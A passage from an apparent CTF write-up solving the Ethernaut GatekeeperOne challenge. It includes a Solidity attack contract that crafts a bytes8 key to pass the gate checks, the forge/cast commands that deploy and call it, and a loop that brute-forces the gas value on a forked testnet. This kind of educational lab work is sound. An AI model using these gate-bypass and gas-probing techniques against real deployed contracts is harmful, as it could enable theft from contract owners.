 Finally, we need to satisfy `gateTwo`, in my opinion the most challenging of the 3 modifiers. 
Commands to solve the challenge:
- `forge create src/AttackGatekeeperOneExact.sol:AttackGatekeeperOneExact --verify --constructor-args <challenge_contract>`
- `cast send <attacker_contract> "attack(bytes8,uint256)" 0xffffffff0000a9E1 82164 --gas-limit 600000`

```solidity
pragma solidity ^0.8.10;

contract AttackGatekeeperOneExact {
    address public victim;

    constructor(address _victim) {
        victim = _victim;
    }   

    function attack(bytes8 _key, uint256 _gasLevel) public returns(bool){
        //0xffffffff0000a9E1
        require(uint32(uint64(_key)) == uint16(uint64(_key)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_key)) != uint64(_key), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_key)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");

        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = victim.call{gas: _gasLevel + 8191*10}(payload);
        require(success, "failed");
        return success;
    }

}
```
**Question**: how did we know the `_gasLevel` parameter in the attack function should be 82164?
The answer is that we fork the live testnet to log the correct gasLevel in a for-loop. Forking a live testnet means we don't need to do any setup to simulate the actual gas usage, as all the relevant contracts (ie. the challenge contract) are deployed. Instead of running the for-loop in live testnet (as I've seen some tutorials do, wasting testnet ETH and also taking more time to test), we can debug gas using foundry’s `forge test -vvvv --rpc-url $ETH_RPC_URL`. Replace the line `(bool success,) = victim.call{gas: _gasLevel + 8191*10}(payload);` with the for loop clause below:


```solidity
//src/AttackGatekeeperOne.sol (with loop for testing)
import "forge-std/Test.sol";
...
for (uint256 i=0; i<300; i++){
    (success,) = victim.call{gas: i + _gasLevel + 8191*10}(payload);
    if(success){
        console.log(i + _gasLevel + 8191*10); 
        break;
    }
}
```
